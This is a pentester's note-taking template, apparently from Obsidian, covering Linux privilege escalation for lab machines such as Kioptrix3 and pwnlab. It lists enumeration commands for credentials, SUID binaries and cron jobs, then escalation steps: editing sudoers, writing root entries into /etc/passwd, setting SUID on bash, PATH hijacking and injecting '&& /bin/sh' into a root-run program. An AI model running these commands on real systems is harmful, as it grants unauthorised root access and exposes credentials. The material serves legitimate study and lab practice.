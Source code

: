 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
### useful enumeration

users
`cat /etc/passwd`

**What commands can the user execute with sudo?
`sudo -l

**What is the kernel version and architecture type?
`uname -a
`uname -r

**What is the OS version
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**Run pspy64 on the machine to get the process run by root.**

**What are the SUID/GUID binaries?
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?
`history
``.bash_history

**Are there any plaintext credentials to be found?
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?
`crontab -l
l`s -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

networking
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`
`cat /etc/hosts` (can find vhosts on webservers or check config files)

**applications installed**
`dpkg -l`

**unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**What processes and services are running?  Which are running as root?
`ps –ef
`ps –ef | grep root

**Scripts that can be used if they run as root:
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**Can you set a SUID on bash?
`chmod +s /bin/bash`
`/bin/bash -p`

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake
su root
**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
